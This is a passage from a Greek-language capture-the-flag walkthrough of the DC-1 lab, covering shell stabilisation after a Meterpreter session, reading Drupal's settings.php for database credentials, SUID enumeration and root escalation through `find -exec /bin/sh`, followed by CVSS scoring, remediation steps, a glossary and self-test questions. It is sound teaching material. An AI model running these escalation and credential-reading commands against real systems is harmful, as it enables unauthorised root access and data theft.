### 4.1 Μετάβαση σε Κέλυφος Συστήματος και Αναβάθμιση σε PTY


#### Επεξήγηση 4.1 — γιατί το «τυφλό» shell δεν αρκεί

Το Meterpreter είναι ισχυρό αλλά «κλειστό» περιβάλλον: δεν έχει τις εντολές του συστήματος. Το `shell` ανοίγει `/bin/sh` **μέσω** της συνεδρίας (εικόνα `image-8.png`: `Process 3359 created. Channel 0 created.`).

**Τι λείπει από ένα dumb shell:**

| Πρόβλημα | Αποτέλεσμα |
| :--- | :--- |
| Χωρίς TTY | Δεν δουλεύουν `sudo`, `su`, `less`, `vim` |
| Χωρίς job control | `Ctrl+C` σκοτώνει τη συνεδρία, όχι τη διεργασία |
| Χωρίς autocomplete/history | Δύσκολη δουλειά |
| Χωρίς prompt | Δεν ξέρετε πού είστε |

**Η λύση — `python -c 'import pty; pty.spawn("/bin/bash")'`:**

* Η Python ανοίγει έναν **ψευδο-τερματικό** (PTY) και συνδέει το bash μαζί του.
* Το bash νομίζει ότι τρέχει σε κανονικό τερματικό → επιστρέφουν prompts, colors και job control.

**Πλήρης σταθεροποίηση (η σωστή σειρά):**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# μετά: Ctrl+Z (background), στο τοπικό shell:
stty raw -echo; fg
# Enter, μετά:
export TERM=xterm
stty rows 40 columns 120
```

**Γιατί το `export TERM=xterm`:** χωρίς αυτό, προγράμματα όπως `nano` ή `top` εμφανίζουν «TERM environment variable not set» ή σκουπίδια.

**Αν δεν υπάρχει Python:** `script -qc /bin/bash /dev/null`, ή Perl: `perl -e 'exec "/bin/bash";'`.

Η συνεδρία Meterpreter παρέχει ισχυρές λειτουργίες διαχείρισης μνήμης, μεταφοράς αρχείων και εκτέλεσης διεργασιών, όμως η ενδελεχής εξερεύνηση ενός λειτουργικού συστήματος Linux απαιτεί άμεση πρόσβαση στο φυσικό κέλυφος εντολών Unix.

```bash
meterpreter > shell
```


* `shell`: Δημιουργεί ένα νέο υπο-κανάλι επικοινωνίας (channel) εντός της συνεδρίας Meterpreter και εκκινεί μια διεργασία του βασικού κελύφους εντολών (`/bin/sh`) στον στόχο.


*Εικόνα 8 — Εκκίνηση Βασικού Κελύφους μέσω Meterpreter*

Το αρχικό κέλυφος που αποκτάται είναι "τυφλό" (dumb shell). Δεν διαθέτει υποστήριξη περιβάλλοντος TTY, αυτόματης συμπλήρωσης εντολών (tab completion), ιστορικού εντολών μέσω των βελών πληκτρολογίου, ούτε σωστής διαχείρισης σημάτων τερματισμού (π.χ. το πάτημα `Ctrl+C` θα διακόψει ολόκληρη τη συνεδρία αντί για την τρέχουσα διεργασία). Για να ξεπεραστεί αυτός ο περιορισμός, πραγματοποιείται αναβάθμιση σε πλήρες ψευδο-τερματικό (Pseudo-Terminal - PTY) αξιοποιώντας τον διερμηνέα Python.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

* `python`: Καλεί τον εγκατεστημένο διερμηνέα Python του συστήματος-στόχου.
* `-c`: Επιτρέπει την απευθείας εκτέλεση κώδικα Python που περνά ως παράμετρος συμβολοσειράς στη γραμμή εντολών, παρακάμπτοντας την ανάγκη εγγραφής προσωρινού αρχείου script στον δίσκο.
* `'import pty; pty.spawn("/bin/bash")'`: Εισάγει την ενσωματωμένη βιβλιοθήκη `pty` της Python (η οποία διαχειρίζεται λειτουργίες ψευδο-ακροδεκτών στο λειτουργικό σύστημα Unix) και καλεί τη μέθοδο `spawn()`. Η μέθοδος αυτή εκκινεί μια νέα διεργασία `/bin/bash` συνδεδεμένη με έναν νεοδημιουργημένο εικονικό ακροδέκτη PTY, παρέχοντας ένα πλήρως λειτουργικό, διαδραστικό κέλυφος με αναγνωρίσιμο prompt χρήστη.
                    |

### 4.2 Εντοπισμός και Ερμηνεία του Flag 1


#### Επεξήγηση 4.2 — τι μας λέει το πρώτο flag

Η εικόνα `image-10.png` δείχνει:

```
www-data@DC-1:/var/www$ cat flag1.txt
Every good CMS needs a config file - and so do you.
```

**Δύο πράγματα συμβαίνουν εδώ:**

1. **Επιβεβαίωση ταυτότητας:** το prompt `www-data` δείχνει ότι η πρόσβαση είναι ως **web user**, όχι root. Άρα η φάση 4 είναι υποχρεωτική.
2. **Κατεύθυνση:** το flag *δεν είναι αυτοσκοπός* — είναι **υπόδειξη**. «config file» σημαίνει: ψάξε `sites/default/settings.php` ή `wp-config.php`.

**Γιατί ο σχεδιαστής του CTF το κάνει αυτό:** τα flags λειτουργούν ως **checkpoints** που επιβραβεύουν τη σωστή μεθοδολογία. Σε πραγματικό audit δεν υπάρχουν flags — υπάρχουν ευρήματα (π.χ. «credentials σε αρχείο με λάθος δικαιώματα»).

**Τι θα ψάξουμε στο Drupal:**

```bash
cd /var/www
ls -la
cat sites/default/settings.php | grep -A5 "databases"
```

Το `settings.php` περιέχει `$databases['default']['default']` με `database`, `username`, `password`, `host` — δηλαδή διαπιστευτήρια MySQL.

**Σημείωση ασφάλειας:** το `settings.php` θα έπρεπε να είναι `444` ή εκτός web root. Αν είναι αναγνώσιμο από `www-data`, οποιαδήποτε ευπάθεια web app οδηγεί σε πρόσβαση στη βάση.

Βρισκόμενοι πλέον στον κατάλογο εργασίας του εξυπηρετητή ιστού (`/var/www`), πραγματοποιείται λεπτομερής καταγραφή των αρχείων προκειμένου να εντοπιστούν οι αρχικές κατευθυντήριες οδηγίες που άφησε ο δημιουργός του εργαστηρίου.

```bash
ls -la
cat flag1.txt
```

 * `ls -la`: 
* `ls`: Εμφανίζει τα περιεχόμενα του τρέχοντος καταλόγου.
* `-l` (*long listing*): Προβάλλει αναλυτικές πληροφορίες για κάθε αρχείο (δικαιώματα πρόσβασης rwx, αριθμό συνδέσμων, ιδιοκτήτη, ομάδα, μέγεθος σε bytes και χρονοσφραγίδα τελευταίας τροποποίησης).
* `-a` (*all*): Εμφανίζει όλα τα αρχεία συμπεριλαμβανομένων των κρυφών (εκείνων που το όνομά τους ξεκινά με τελεία `.`, όπως τα `.htaccess`, `.bashrc`).
 * `cat flag1.txt`: Συνενώνει και εκτυπώνει το περιεχόμενο του αρχείου κειμένου `flag1.txt` στην τυπική έξοδο (stdout).


*Εικόνα 9 — Ανάγνωση του Αρχείου flag1.txt*

Το περιεχόμενο του Flag 1 υποδεικνύει ότι τα αρχεία ρυθμίσεων (configuration files) του CMS περιέχουν κρίσιμα δεδομένα. Στο Drupal 7, το θεμελιώδες αρχείο διαμόρφωσης είναι το `sites/default/settings.php`, το οποίο περιλαμβάνει, μεταξύ άλλων, τα διαπιστευτήρια σύνδεσης με τη βάση δεδομένων MySQL.

---

## 5. Φάση 4: Τοπική Κλιμάκωση Προνομίων (Local Privilege Escalation)


### Επεξήγηση Φάσης 4 — η λογική της κλιμάκωσης

Η κλιμάκωση προνομίων απαντά σε ένα ερώτημα: *«τι μου επιτρέπεται να κάνω που δεν θα έπρεπε;»*. Οι κατηγορίες που ελέγχονται πάντα, με σειρά προτεραιότητας:

| # | Έλεγχος | Εντολή | Γιατί δουλεύει |
| :--- | :--- | :--- | :--- |
| 1 | sudo δικαιώματα | `sudo -l` | Λάθος κανόνας = άμεσο root |
| 2 | SUID binaries | `find / -perm -u=s` | Εκτέλεση με δικαιώματα ιδιοκτήτη |
| 3 | Cron jobs | `cat /etc/crontab` | Script που τρέχει ως root και είναι εγγράψιμο |
| 4 | Capabilities | `getcap -r / 2>/dev/null` | Πιο «σύγχρονο» SUID |
| 5 | Kernel exploits | `uname -a` + searchsploit | Παλιός πυρήνας |
| 6 | Credentials σε αρχεία | `grep -r password` | Επαναχρησιμοποίηση |
| 7 | PATH hijacking | `echo $PATH` | Script που καλεί εντολή χωρίς απόλυτη διαδρομή |

**Στο DC-1** η απάντηση βρίσκεται στο #2: ένα εργαλείο γενικής χρήσης (`find`) με SUID bit.

### 5.1 Ανάλυση Επιφανειών Επίθεσης & Ανίχνευση Εκτελέσιμων SUID


#### Επεξήγηση 5.1 — τι σημαίνει πραγματικά «SUID bit»

**SUID (Set User ID):** όταν ένα εκτελέσιμο έχει το bit, τρέχει με τα δικαιώματα του **ιδιοκτήτη** του αρχείου, όχι του χρήστη που το καλεί. Αν ανήκει στον root, τρέχει ως root.

**Γιατί υπάρχει:** για εργαλεία που χρειάζονται προνόμια για να δουλέψουν, π.χ. `passwd` (πρέπει να γράψει στο `/etc/shadow`), `ping` (raw sockets), `su`, `mount`.

**Γιατί γίνεται ευπάθεια:** αν το πρόγραμμα επιτρέπει **εκτέλεση άλλης εντολής** ή **διαφυγή σε shell**, τότε το SUID μεταφέρει το root σε εμάς.

**Ανάλυση του `find / -perm -u=s -type f 2>/dev/null`:**

| Τμήμα | Σημασία |
| :--- | :--- |
| `find /` | Αναζήτηση από τη ρίζα |
| `-perm -u=s` | Δικαιώματα που **περιλαμβάνουν** SUID για τον owner (`-4000`) |
| `-type f` | Μόνο κανονικά αρχεία |
| `2>/dev/null` | Πετάει τα «Permission denied» |

**Στην εικόνα `image-11.png`** βλέπετε τα συνηθισμένα (`/bin/ping`, `/bin/su`, `/usr/bin/passwd`) — και το ύποπτο: **`/usr/bin/find`**. Το `find` **δεν** χρειάζεται SUID για να δουλέψει· η παρουσία του είναι σφάλμα διαμόρφωσης.

**Τι θα έπρεπε να κάνετε:** ελέγξτε κάθε SUID με `ls -l` και `dpkg -S <path>` για να δείτε αν ανήκει σε πακέτο. Τα μη αναμενόμενα είναι ύποπτα.

Η τρέχουσα συνεδρία εκτελείται υπό τα δικαιώματα του λογαριασμού `www-data` (ο τυπικός μη προνομιούχος χρήστης που χρησιμοποιεί η υπηρεσία Apache). Για την πλήρη υποταγή του στόχου απαιτείται η απόκτηση προνομίων του υπερχρήστη `root` (UID 0). 

Ένας από τους πιο κρίσιμους μηχανισμούς τοπικής κλιμάκωσης προνομίων σε περιβάλλοντα Unix/Linux είναι η εκμετάλλευση εκτελέσιμων αρχείων με ενεργοποιημένο το ειδικό δικαίωμα **SUID** (*Set User ID*). Όταν ένα δυαδικό αρχείο διαθέτει το SUID bit, εκτελείται πάντοτε με τα προνόμια του ιδιοκτήτη του αρχείου και όχι του χρήστη που το κάλεσε. Εάν ένα εκτελέσιμο που ανήκει στον `root` φέρει SUID bit και ταυτόχρονα επιτρέπει την εκτέλεση εξωτερικών εντολών ή διαφυγή σε κέλυφος (shell escape), μπορεί να αξιοποιηθεί για άμεση κλιμάκωση προνομίων.

```bash
find / -perm -u=s -type f 2>/dev/null
```

* `find /`: Εκκινεί εξαντλητική, αναδρομική αναζήτηση ξεκινώντας από τη ρίζα του συστήματος αρχείων (`/`).
* `-perm -u=s`: Φιλτράρει τα αποτελέσματα ελέγχοντας αποκλειστικά αρχεία των οποίων τα δικαιώματα περιλαμβάνουν το SUID bit για τον χρήστη-ιδιοκτήτη τους (ισοδύναμο με οκταδικό μοτίβο `-4000`).
* `-type f`: Περιορίζει την αναζήτηση αποκλειστικά σε κανονικά δυαδικά αρχεία (files), απορρίπτοντας καταλόγους, συμβολικούς συνδέσμους και ειδικές συσκευές συστήματος.
* `2>/dev/null`: Ανακατευθύνει τη ροή της τυπικής εξόδου σφαλμάτων (Standard Error - file descriptor 2) στην ειδική συσκευή απορριμμάτων του πυρήνα `/dev/null`. Αυτό αποτρέπει την παραγωγή εκατοντάδων μηνυμάτων "Permission denied" καθώς ο μη προνομιούχος χρήστης `www-data` επιχειρεί να διαβάσει προστατευμένους καταλόγους συστήματος, διατηρώντας την έξοδο καθαρή και ευανάγνωστη.


*Εικόνα 10 — Αποτελέσματα Σάρωσης binary Αρχείων SUID*


### 5.2 Μηχανισμός Εκμετάλλευσης του SUID Δικαιώματος στο `find`


#### Επεξήγηση 5.2 — γιατί το `-exec` είναι «σκάλα» προς root

Το `find` έχει παράμετρο `-exec` που εκτελεί **οποιαδήποτε** εντολή για κάθε ταιριαστό αρχείο. Επειδή το binary είναι SUID root, κάθε θυγατρική διεργασία που δημιουργεί κληρονομεί το **EUID 0**.

**Η εντολή:**

```bash
/usr/bin/find . -exec /bin/sh \; -quit
```

| Τμήμα | Ανάλυση |
| :--- | :--- |
| `/usr/bin/find` | Απόλυτη διαδρομή — αποφεύγει PATH hijacking |
| `.` | Αναζήτηση στον τρέχοντα κατάλογο |
| `-exec /bin/sh \;` | Εκτέλεση shell για κάθε αποτέλεσμα· το `\;` τερματίζει την παράμετρο |
| `-quit` | Σταμάτα μετά το πρώτο |

**Γιατί το `\;` και όχι `;`:** το `;` θα το ερμήνευε το **δικό μας** shell ως τέλος εντολής. Το `\` το «δραπετεύει» ώστε να φτάσει στο `find`.

**Εναλλακτικές εκμετάλλευσης (για εμπέδωση):**

```bash
find / -exec whoami \; -quit          # επιβεβαίωση: root
find / -exec /bin/bash -p \; -quit    # bash με προνόμια
```

**Το `-p` στο bash:** διατηρεί τα προνόμια αντί να τα ρίξει (το bash κατεβάζει EUID όταν τρέχει SUID για λόγους ασφαλείας).

**Η εικόνα `image-12.png`** δείχνει το κέλυφος που ανοίγει· η `image-13.png` επιβεβαιώνει με `whoami` → `root`.

**Πώς διορθώνεται:** `chmod u-s /usr/bin/find` και έλεγχος όλων των SUID με βάση το «χρειάζεται πραγματικά;».

Η παρουσία του SUID bit στο εκτελέσιμο `/usr/bin/find` συνιστά σοβαρότατο σφάλμα διαμόρφωσης ασφαλείας (Security Misconfiguration). Το εργαλείο `find` ενσωματώνει τη λειτουργία `-exec`, η οποία επιτρέπει στον χρήστη να ορίσει μια αυθαίρετη εντολή συστήματος που θα εκτελεστεί αυτόματα για κάθε αντικείμενο που ικανοποιεί τα κριτήρια της αναζήτησης.

Επειδή το δυαδικό αρχείο `find` ανήκει στον χρήστη `root` και φέρει το SUID bit, κάθε υπο-διεργασία που γεννάται μέσω της παραμέτρου `-exec` κληρονομεί αυτόματα το αποτελεσματικό αναγνωριστικό χρήστη (Effective User ID - EUID) του `root`. Καλώντας απευθείας ένα κέλυφος συστήματος (όπως το `/bin/sh`), δημιουργείται ένα κέλυφος με πλήρη προνόμια υπερχρήστη.

```bash
/usr/bin/find . -exec /bin/sh \; -quit
```


*Εικόνα 11 — Κέλυφος με προνόμια `root` μέσω κατάχρησης του SUID `find`.*

* `/usr/bin/find`: Καλεί το συγκεκριμένο εκτελέσιμο με την απόλυτη διαδρομή του, αποτρέποντας πιθανές παρεμβολές από μεταβλητές περιβάλλοντος όπως η `$PATH`.
* `.`: Ορίζει ως πεδίο αναζήτησης τον τρέχοντα κατάλογο.
* `-exec /bin/sh \;`: Ορίζει την εντολή που θα εκτελεστεί. 
  * Το `/bin/sh` εκκινεί μια νέα συνεδρία κελύφους.
  * Το σύμβολο `;` υποδηλώνει το τέλος της παραμέτρου `-exec`, ενώ η ανάστροφη κάθετος `\` (escape character) είναι απαραίτητη ώστε ο χαρακτήρας `;` να ερμηνευτεί από το ίδιο το `find` και όχι πρόωρα από το γονικό κέλυφος bash.
 * `-quit`: Εντολή προς το `find` να τερματίσει αμέσως τη λειτουργία του μετά την πρώτη επιτυχή εκτέλεση. Χωρίς την παράμετρο `-quit`, το `find` θα επιχειρούσε να εκτελέσει το `/bin/sh` διαδοχικά για κάθε αρχείο του καταλόγου, δημιουργώντας πολλαπλά περιττά υπο-κελύφη.



*Εικόνα 12 — Επιτυχής Κλιμάκωση Προνομίων σε Επίπεδο Root*

### 5.3 Επαλήθευση Ταυτότητας & Ανάκτηση του Τελικού Flag


#### Επεξήγηση 5.3 — γιατί επιβεβαιώνουμε και τι κοιτάμε στο `/root`

**`whoami`** και **`id`**: το `whoami` δίνει όνομα, το `id` δίνει `uid=0(root) gid=0(root) groups=0(root)` — πιο ακριβές. Σε περιβάλλοντα με EUID, το `id` δείχνει και το effective ID.

**Γιατί το `/root` είναι η απόδειξη:** είναι κατάλογος με δικαιώματα `700` και ιδιοκτήτη root. Αν μπορείτε να κάνετε `ls` μέσα, έχετε όντως root — δεν πρόκειται για «φιλικό» shell με ψευδαίσθηση προνομίων.

**Ανάγνωση της εικόνας `image-14.png`:**

```
# cat thefinalflag.txt
Well done!!!!
Hopefully you've enjoyed this and learned some new skills.
```

**Τι σημαίνει «ολοκλήρωση»:** δεν είναι μόνο το αρχείο· είναι ότι εκτελέστηκε ολόκληρη η αλυσίδα: recon → ευπάθεια → shell → enumeration → privesc. Σε πραγματικό engagement, εδώ θα γραφόταν το **report** με:

* την αλυσίδα (chain of exploitation),
* το impact (τι δεδομένα εκτέθηκαν),
* τα βήματα αναπαραγωγής,
* τις προτεινόμενες διορθώσεις.

Έχοντας πλέον αποκτήσει προνόμια υπερχρήστη (`root`), επικυρώνεται η διαχειριστική εξουσία στο σύστημα και ανακτάται το τελικό αρχείο επιβράβευσης (flag), επισφραγίζοντας την πλήρη ολοκλήρωση της δοκιμής παρείσδυσης.

```bash
whoami
cd /root
ls -la
cat thefinalflag.txt
```

* `whoami`: Επιστρέφει το ενεργό αναγνωριστικό όνομα χρήστη της τρέχουσας συνεδρίας. Η απάντηση `root` επιβεβαιώνει τη λειτουργία στο ανώτατο επίπεδο δικαιωμάτων του λειτουργικού συστήματος.
* `cd /root`: Αλλάζει τον τρέχοντα κατάλογο εργασίας στον προστατευμένο αρχικό κατάλογο (home directory) του διαχειριστή συστήματος, στον οποίο απαγορεύεται αυστηρά η πρόσβαση σε απλούς χρήστες.
* `ls -la`: Απαριθμεί αναλυτικά όλα τα περιεχόμενα του καταλόγου `/root`, αποκαλύπτοντας την ύπαρξη του αρχείου `thefinalflag.txt`.
* `cat thefinalflag.txt`: Αναγιγνώσκει και τυπώνει στην οθόνη το τελικό μήνυμα ολοκλήρωσης του εργαστηρίου.


*Εικόνα 13 — Ανάγνωση του Τελικού Αρχείου thefinalflag.txt*

## 6. Τεχνική Σύνοψη, Αξιολόγηση Επικινδυνότητας & Μέτρα Αποκατάστασης


### Επεξήγηση §6 — πώς διαβάζεται ο πίνακας επικινδυνότητας

Ο πίνακας του πρωτοτύπου ταξινομεί δύο ευρήματα:

| Στάδιο | Αδυναμία | CVSS | Επίπτωση |
| :--- | :--- | :--- | :--- |
| Αρχική πρόσβαση | Drupalgeddon (CVE-2014-3704) | **9.8 Critical** | RCE μέσω SQLi |
| Κλιμάκωση | SUID στο `/usr/bin/find` | **7.8 High** | Root |

**Γιατί το 9.8 είναι «Critical»:** `AV:N` (δικτυακό), `AC:L` (χαμηλή πολυπλοκότητα), `PR:N` (κανένα privilege), `UI:N` (χωρίς αλληλεπίδραση), `C/I/A:H` (πλήρης επίπτωση). Δηλαδή: *οποιοσδήποτε με δικτυακή πρόσβαση παίρνει κώδικα, χωρίς να κάνει τίποτα ο χρήστης*.

**Γιατί το SUID είναι 7.8 και όχι 9.8:** απαιτεί **τοπική** πρόσβαση (`AV:L`) — πρώτα πρέπει να είσαι μέσα. Γι' αυτό η κλιμάκωση είναι «δεύτερο σκαλί», όχι είσοδος.

**Η έννοια του «defense in depth»:** αν το Drupal ήταν ενημερωμένο, η αλυσίδα δεν ξεκινούσε. Αν το SUID έλειπε, η αλυσίδα σταματούσε στο `www-data`. Κάθε έλεγχος είναι ανεξάρτητος φραγμός.

Η επιτυχής κατάληψη της μηχανής DC-1 κατέδειξε μια αλυσίδα δύο βασικών κενών ασφαλείας, τα οποία συνδυαστικά οδήγησαν από την πλήρη έλλειψη διαπιστευτηρίων (Zero Access) στον απόλυτο έλεγχο της υποδομής (Root Compromise).

| Στάδιο Επίθεσης | Εντοπισθείσα Αδυναμία | Επίπεδο Επικινδυνότητας (CVSS v3) | Τεχνική Επίπτωση |
| :--- | :--- | :--- | :--- |
| **Αρχική Προσβολή** | Drupalgeddon (CVE-2014-3704) | **CRITICAL (9.8)** | Απομακρυσμένη εκτέλεση αυθαίρετου κώδικα (RCE) μέσω SQLi |
| **Κλιμάκωση Προνομίων** | SUID Misconfiguration στο `/usr/bin/find` | **HIGH (7.8)** | Παράκαμψη μηχανισμών περιορισμού και απόκτηση προνομίων Root |

### 6.1 Προτεινόμενα Μέτρα Αποκατάστασης (Remediation & Hardening)


#### Επεξήγηση 6.1 — από τη διόρθωση στη «θωράκιση»

**Patch management:** η ενημέρωση είναι η μόνη άμυνα που κλείνει *όλες* τις γνωστές ευπάθειες μαζί. Χρειάζεται **διαδικασία**: γνώση εκδόσεων, δοκιμή σε staging, rollback plan. Ένα EOL λογισμικό (Debian Wheezy, Drupal 7) δεν επιδιορθώνεται — αντικαθίσταται.

**WAF (ModSecurity + OWASP CRS):** μπλοκάρει γνωστά μοτίβα (SQLi, XSS) πριν φτάσουν στην εφαρμογή. **Δεν** αντικαθιστά το patch — είναι «δίχτυ» για ό,τι ξεφύγει.

**Least privilege:** ο Apache τρέχει ως `www-data` (σωστό). Το λάθος είναι ότι ο `www-data` διαβάζει `settings.php` με credentials της βάσης — και ότι η βάση τρέχει ως root. Η MySQL θα έπρεπε να τρέχει ως `mysql`.

**AIDE / Tripwire:** εργαλεία ακεραιότητας που καταγράφουν hashes αρχείων. Αν αλλάξει ένα SUID binary ή ένα config, ειδοποιούν. Χωρίς αυτά, μια αλλαγή όπως `chmod u+s /usr/bin/find` περνά απαρατήρητη.

**AppArmor / SELinux:** περιορίζουν τι μπορεί να κάνει μια διεργασία **ακόμη κι αν** έχει προνόμια. Με σωστό profile, ο Apache δεν θα μπορούσε να εκτελέσει `/bin/sh` — και η αλυσίδα θα έσπαγε στο πρώτο βήμα.

**Έλεγχος SUID σε τακτική βάση:**

```bash
find / -perm -4000 -type f -exec ls -l {} \; 2>/dev/null
# συγκρίνετε με γνωστή λίστα /etc/suid-baseline.txt
```

1. **Διαχείριση Ενημερώσεων Εφαρμογών Ιστού (Patch Management):**
   * Η έκδοση του Drupal πρέπει να αναβαθμιστεί άμεσα στην πιο πρόσφατη υποστηριζόμενη έκδοση ασφαλείας.
   * Εγκατάσταση και ορθή παραμετροποίηση ενός Τείχους Προστασίας Εφαρμογών Ιστού (**Web Application Firewall - WAF**), όπως το ModSecurity, με ενημερωμένους κανόνες (OWASP Core Rule Set) για την έγκαιρη ανίχνευση και απόρριψη κακόβουλων αιτημάτων SQL Injection.

2. **Αυστηροποίηση Δικαιωμάτων Συστήματος Αρχείων (Least Privilege Principle):**
   * Πρέπει να αφαιρεθεί άμεσα το SUID bit από το εκτελέσιμο `find` καθώς και από κάθε άλλο εργαλείο γενικής χρήσης που δεν απαιτεί ειδικά δικαιώματα για την ομαλή λειτουργία του:
     ```bash
     sudo chmod u-s /usr/bin/find
     ```
   * Εφαρμογή τακτικών αυτοματοποιημένων ελέγχων ακεραιότητας και δικαιωμάτων (π.χ. μέσω AIDE, Tripwire ή περιοδικών cron scripts) που σαρώνουν το σύστημα για μη εξουσιοδοτημένες αλλαγές σε αρχεία SUID/SGID.
   * Ενεργοποίηση και επιβολή αυστηρών πολιτικών υποχρεωτικού ελέγχου πρόσβασης (Mandatory Access Control - MAC) μέσω **AppArmor** ή **SELinux**, περιορίζοντας τις δυνατότητες διεργασιών όπως ο Apache (`www-data`) από το να εκτελούν δυαδικά αρχεία διαχείρισης συστήματος ή να εκκινούν κελύφη PTY.

---


## Παράρτημα Α — Η αλυσίδα του DC-1 σε πέντε γραμμές

```
netdiscover  →  192.168.35.131
nmap -sV -p- →  22/80/111, Debian Wheezy, Apache 2.2.22
http://…/    →  Drupal 7.x  →  CVE-2014-3704
msf exploit  →  Meterpreter  →  shell  →  www-data
find -perm   →  SUID /usr/bin/find  →  root  →  thefinalflag.txt
```

## Παράρτημα Β — Γλωσσάρι

| Όρος | Σημασία |
| :--- | :--- |
| **Penetration test** | Ελεγχόμενη επίθεση με άδεια και αναφορά |
| **Fingerprinting** | Ταυτοποίηση υπηρεσίας/έκδοσης |
| **CVE** | Αναγνωριστικό δημοσιευμένης ευπάθειας |
| **CVSS** | Βαθμολογία σοβαρότητας 0–10 |
| **RCE** | Remote Code Execution |
| **SQLi** | SQL Injection — ένεση εντολών SQL |
| **Prepared statement** | Παραμετροποιημένο query (προστατεύει **τιμές**) |
| **Payload / Stager** | Τι εκτελείται στον στόχο / ο «μεταφορέας» του |
| **Meterpreter** | Προηγμένο payload του Metasploit |
| **Reverse shell** | Ο στόχος συνδέεται πίσω στον επιτιθέμενο |
| **PTY** | Ψευδο-τερματικό (πλήρες διαδραστικό shell) |
| **SUID** | Εκτέλεση με δικαιώματα ιδιοκτήτη |
| **EUID** | Effective User ID — με ποια δικαιώματα τρέχει η διεργασία |
| **Defense in depth** | Πολλαπλά ανεξάρτητα μέτρα άμυνας |

## Παράρτημα Γ — Ερωτήσεις αυτοελέγχου

1. Γιατί το ARP discovery είναι πιο αξιόπιστο από ICMP σε LAN;
2. Τι μας λέει η έκδοση `OpenSSH 6.0p1 Debian 4+deb7u7` για το σύστημα;
3. Γιατί το `-p-` είναι απαραίτητο σε ένα CTF;
4. Περιγράψτε τη ρίζα του Drupalgeddon: ποιο μέρος του query δεν προστατεύεται από prepared statements;
5. Τι κάνει το `LHOST` και τι συμβαίνει αν είναι λάθος;
6. Γιατί ένα «dumb shell» δεν αρκεί και τι λύνει το `pty.spawn`;
7. Εξηγήστε γιατί το SUID στο `find` δίνει root μέσω `-exec`.
8. Γιατί το ίδιο εύρημα (SUID) έχει χαμηλότερο CVSS από το RCE;
9. Ποια **τρία** μέτρα θα έσπαγαν την αλυσίδα και σε ποιο βήμα;

## Παράρτημα Δ — Λίστα ελέγχου

- [ ] Απομονωμένο δίκτυο (NAT Network / Host-Only)
- [ ] Εντοπισμός στόχου με ARP
- [ ] Πλήρης σάρωση θυρών + εκδόσεις
- [ ] Ταυτοποίηση CMS και έκδοσης
- [ ] Επιλογή module με βάση την **έκδοση**, όχι τη «μόδα»
- [ ] Σωστό `RHOSTS` / `LHOST` / `LPORT`
- [ ] Σταθεροποίηση shell (PTY + TERM)
- [ ] Enumeration από μέσα (`id`, `sudo -l`, configs)
- [ ] Έλεγχος SUID και cron
- [ ] Επαλήθευση root με `id`
- [ ] Καταγραφή αλυσίδας για το report
